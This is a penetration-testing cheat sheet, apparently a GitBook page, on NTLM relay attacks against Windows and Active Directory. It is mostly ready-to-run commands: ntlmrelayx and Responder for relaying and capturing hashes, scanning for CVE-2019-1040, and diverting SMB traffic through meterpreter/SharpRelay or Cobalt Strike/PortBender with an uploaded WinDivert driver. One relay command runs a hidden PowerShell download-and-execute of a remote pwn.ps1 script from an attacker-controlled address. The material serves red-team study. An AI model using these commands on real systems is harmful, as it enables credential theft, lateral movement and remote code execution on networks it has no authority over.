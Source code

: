 # NTLM Relay

* [https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
* [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [https://www.secureauth.com/blog/playing-with-relayed-credentials/](https://www.secureauth.com/blog/playing-with-relayed-credentials/)
* [https://www.secureauth.com/blog/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/](https://www.secureauth.com/blog/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* [https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire](https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire)
* [https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/](https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/)
* [https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
* [https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
* [https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay)
* [https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/)
* [https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay](https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay)
* [https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html](https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html)

{% file src="/.gitbook/assets/Lateral Movement using Credentials Relaying (taso_x).pdf" %}

Generate relay list with CME and enumerate local admins when relaying:

```
$ cme smb 192.168.2.0/24 --gen-relay-list out.txt
$ sudo ntlmrelayx.py -smb2support --no-http-server -tf out.txt --enum-local-admins -of net-ntlmv2
```

Relay & catch hashes (via [multi-relay](https://www.thehacker.recipes/ad/movement/ntlm/relay#tips-and-tricks)):

```
$ sudo smbserver.py -smb2support -port 8445 share `pwd`
$ sudo ntlmrelayx.py -smb2support --no-http-server --no-wcf-server -tf targets.txt
$ cat targets.txt
smb://10.10.13.37
smb://127.0.0.1:8445
```

{% hint style="info" %}
The easier way though is to use the combination of `-of/--output-file hashes.txt -ntlmchallenge 1122334455667788` options to save the hash with a predefined challenge to a file while relaying.
{% endhint %}

Relay NTLM2 responses obtained from Responder's proxy authentication (Responder's HTTP must be `Off`):

{% embed url="https://twitter.com/theluemmel/status/1455099572305416197" %}

```
$ ntlmrelayx.py -tf relay.txt -smb2support --no-wcf-server -wh attacker.local --http-port 3128 -socks
$ sudo ./Responder.py -I eth0 -frd -v -P
```




## CVE-2019-1040-scanner

* [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```
$ python scan.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11
$ python scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.xyz
```




## Relaying on Windows



### meterpreter + SharpRelay

* [https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)
* [https://github.com/pkb1s/SharpRelay](https://github.com/pkb1s/SharpRelay)

Divert incoming SMB traffic from Victim to Attacker's local 445 port through an elevated meterpreter session and relay it to Target via MSF SOCKS server.

1\. Add a static route to the Target through the 1st meterpreter session:

```
meterpreter > route add 192.168.1.11/32 1
```

2\. Start MSF SOCKS server:

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

3\. Forward a reverse port 8445 on Victim to local port 445 on Attacker and start diverting incoming SMB traffic on Victim to Victim's local 8445 port:

```
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > cd C:\\Windows\\System32\\drivers
meterpreter > upload /home/snovvcrash/www/WinDivert64.sys
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/SharpRelay.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS relaysvc "C:\Windows\System32\drivers\WinDivert64.sys" 445 8445
msf post(windows/manage/execute_dotnet_assembly) > run
```

4\. Relay the diverted traffic to Target through SOCKS:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support
```

{% hint style="warning" %}
When ran once, the driver must be unloaded or the host rebooted before trying again. The fake service can be deleted with a PowerShell command:

```
PS > (sc.exe stop relaysvc) -and (sc.exe delete relaysvc)
```
{% endhint %}



### beacon + PortBender

- [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)
- [https://rastamouse.me/ntlm-relaying-via-cobalt-strike/](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

Set SOCKS server & port forwarding, upload WinDivert driver and configure redirection with PortBender:

```
beacon> socks 1080
beacon> rportfwd 8445 127.0.0.1 445
beacon> cd C:\Windows\System32\drivers
beacon> upload /home/snovvcrash/www/WinDivert64.sys
beacon> PortBender redirect 445 8445
```

Relay the planet:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "iex(new-object net.webclient).downloadstring(\"http://10.10.13.37:8080/pwn.ps1\")"'
```

Stop PortBender:

```
beacon> jobs
beacon> jobkill <JID>
beacon> kill <PID>
```
